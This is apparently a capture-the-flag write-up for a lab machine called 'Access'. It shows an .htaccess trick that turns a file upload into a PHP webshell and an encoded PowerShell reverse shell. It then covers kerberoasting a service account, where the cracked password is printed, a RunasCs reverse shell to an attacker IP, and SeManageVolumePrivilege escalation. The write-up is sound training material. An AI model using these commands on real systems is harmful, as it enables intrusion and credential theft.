PG: Access
Shell as svc_apache
Port 80 is open

Clicking buy tickets in the top right we can upload files

I spent many hours trying to bypass the filters and get php to execute but it didnt work. We have to upload an htaccess file allowing different extensions to execute as php.
echo "AddType application/x-httpd-php .dork" > .htaccessWe upload this file then anything we upload with the .dork extension will execute php code.
I upload a webshell so I can execute commands

I choose to use my typical ps1 reverse shell
PowerShell.exe -Exec ByPass -Nol -Enc <base 64 payload>


Access as svc_mssql
I grab bloodhound data and I see svc_mssql is kerberoastable

Use rubeus to grab the hash

Crack hash

svc_mssql:trustno1
Using runascs we can get access to svc_mssql and get the first flag
.\runascs.exe svc_mssql trustno1 cmd -r 192.168.45.153:9999
Access to Administrator
We have SEmanageVolumePrivilege and we can use this to get access to the entire C drive
https://github.com/CsEnox/SeManageVolumeExploit/


